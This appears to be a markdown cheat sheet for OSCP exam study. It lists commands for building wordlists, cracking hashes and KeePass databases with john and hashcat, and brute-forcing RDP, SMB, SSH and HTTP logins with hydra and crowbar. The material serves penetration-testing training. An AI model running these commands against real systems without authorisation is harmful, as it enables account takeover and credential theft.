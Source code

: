 # OSCP Password Attacks Checklist

## Generate World list

Generating wordlist based on information from a website
```
cewl <domain> -w wordlist.txt
```

Using Crunch:
`@ = Lower case alpha characters`  
`, = Upper case alpha characters`  
`% = Numeric characters`  
`^ = Special characters including space`

crunch min-len max-len charset
```
crunch 4 6 0123456789abcdef -o wordlist.txt
```

### Rules
Add the rules you want in the /etc/john/john.conf file inside the rules module [List.Rules:Wordlist] to modify your wordlists  
basic rule example `$@$[1-2]$[0-9]$[0-9]$[0-9]`
```
john --wordlist=wordlist.txt --rules --stdout > mutated.txt
```

## Cracking Password

### Identifying Hash Type

```sh
hashid <hash>
```

### Hashing different file types for cracking with 2john
- [ssh2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/ssh2john.c)  
- [rar2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/rar2john.c)  
- [zip2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/zip2john.c)  
- [keepass2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/keepass2john.c)  
- [office2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/office2john.c)  
- [pdf2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/pdf2john.c)  
- [pwsafe2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/pwsafe2john.c)  
- [racf2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/racf2john.c)  
- [vncpcap2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/vncpcap2john.cpp)  
- [hccap2jjohn](https://github.com/piyushcse29/john-the-ripper/blob/master/src/hccap2john.c)  
- [keychain2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/keychain2john.c)  
- [mozilla2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/mozilla2john.c) 


## Brute Force Attacks
### Password Manager
  Search KeePass database files
```
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```

  Hashing the .kdbx file
```
keepass2john Database.kdbx > keepass.hash   
```

  Finding Hash-Mode ID of hashcat
```
hashcat --help | grep -i "KeePass"
```

  Cracking
```
hashcat -m 13400 keepass.hash
```

### Hydra
```
hydra -L /usr/share/wordlists/rockyou.txt t -p "<password" rdp://<IP>
```

### RDP - Crowbar
```
crowbar -b rdp -s X.X.X.X/32 -u admin -C /usr/share/wordlists/rockyou.txt -n 1
```

### SMB - Hydra
```
hydra -L /root/Desktop/user.txt -P /usr/share/wordlists/rockyou.txt <IP> smb
```

### SSH - Hydra
```
hydra -l <user> -P /usr/share/wordlists/rockyou.txt ssh://<IP>
```

### HTTP POST Login Form - Hydra
```
hydra -l <user> -P /usr/share/wordlists/rockyou.txt <IP> http-post-form "/login.php:user=admin&pass=^PASS^:Invalid Login" -vV -f
```

### HTTP GET Login Form - Hydra
```
hydra -l <username> -P /usr/share/wordlists/rockyou.txt -f <IP> http-get /login
```
